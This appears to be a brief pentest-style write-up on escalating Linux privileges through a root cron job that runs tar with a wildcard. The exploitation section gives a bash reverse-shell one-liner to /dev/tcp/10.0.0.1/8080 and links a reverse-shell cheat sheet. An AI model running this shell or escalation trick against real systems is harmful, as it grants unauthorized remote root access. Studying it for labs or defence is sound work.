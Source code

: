 # Detection

```bash
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/96658935/147715175-c186b55f-8203-4db1-a3df-378e09d4af2a.png)


![image](https://user-images.githubusercontent.com/96658935/147715206-ce3daf50-014c-4230-88fd-ff7839ab8b43.png)

From the output, notice the wildcard (*) used by ‘tar’.

# Exploitation

Create a reverse bash script and give it executable permissions
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

[OR]

anytype of reverse shell ( IT DOESN'T HAVE TO BE A REVERSE SHELL. YOU CAN JUST PUT A BASH SCRIPT ON IT AND IT WILL STILL ESCALATE)

![image](https://user-images.githubusercontent.com/96658935/147715530-66a0121b-9e16-4cc2-ac10-84a20ada9329.png)


the you just wait for a shell

![image](https://user-images.githubusercontent.com/96658935/147715541-2448ebe4-696e-4a34-8a62-364e393b7d03.png)


![image](https://user-images.githubusercontent.com/96658935/147715627-6013c054-e32e-48eb-8a46-4bf0bb657fa1.png)

